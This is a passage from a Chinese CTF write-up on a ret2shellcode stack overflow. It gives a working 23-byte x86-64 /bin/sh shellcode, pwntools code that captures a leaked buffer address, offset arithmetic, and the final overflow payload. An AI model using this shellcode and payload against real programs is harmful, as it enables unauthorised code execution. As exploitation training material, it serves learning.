 使用一条常用的shellcode成功执行

|   |   |
|---|---|
|1|```<br>shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05"<br>```|

这里猜测可能的原因是pwntools生成的shellcode是44字节的，而我们这个shellcode是23字节的，非常精简，放在栈上面兼容性更好，那么以后的shellcode尽量用这个而不用pwntools生成比较好

那么接下来的问题是shellcode写到哪里

我们看到main函数好像会输出buf的地址，我们运行试一下

[![](https://www.onctf.com/images/image-20210720192107468.png)](https://www.onctf.com/images/image-20210720192107468.png)

确实buf的地址被输出了，那么我们就知道了buf的地址

我们用代码接收一下这个地址

|   |   |
|---|---|
|1  <br>2|```<br>buf_addr = p.recvuntil("]")buf_addr = int(buf_addr[-15:-1], 16) <br>```|

或者这样

|   |   |
|---|---|
|1  <br>2  <br>3|```<br>p.recvuntil('[')buf_addr = p.recvuntil(']', drop=True)buf_addr = int(buf_addr,16)<br>```|

这样buf_addr打印出来就是0x7fff64d273e0

我们用vmmap看一下权限

[![](https://www.onctf.com/images/image-20210720192649435.png)](https://www.onctf.com/images/image-20210720192649435.png)

可以看到[stack]这里，栈上有rwx权限（可读，可写，可执行）

由于函数内buf太小，无法放下shellcode，因此我们可以将其放在返回地址之后，然后让返回地址指向shellcode

这里引用一张图 [来自这里](http://www.peiqi.tech/posts/44/#ret2shellcode)

[![](https://www.onctf.com/images/image-20210720192800275.png)](https://www.onctf.com/images/image-20210720192800275.png)

shellcode的地址是这样的

|   |   |
|---|---|
|1|```<br>shellcode_addr = buf_addr + 32<br>```|

shellcode 的地址 = buf的地址 + buf与rbp的距离16 + rbp的宽度8 + 返回地址的长度8

现在shellcode和shellcode的地址都有了，那么只要往这个地址传入shellcode即可完成利用

|   |   |
|---|---|
|1|```<br>payload = 'a' * 24 + p64(shellcode_addr) + shellcode<br>```|
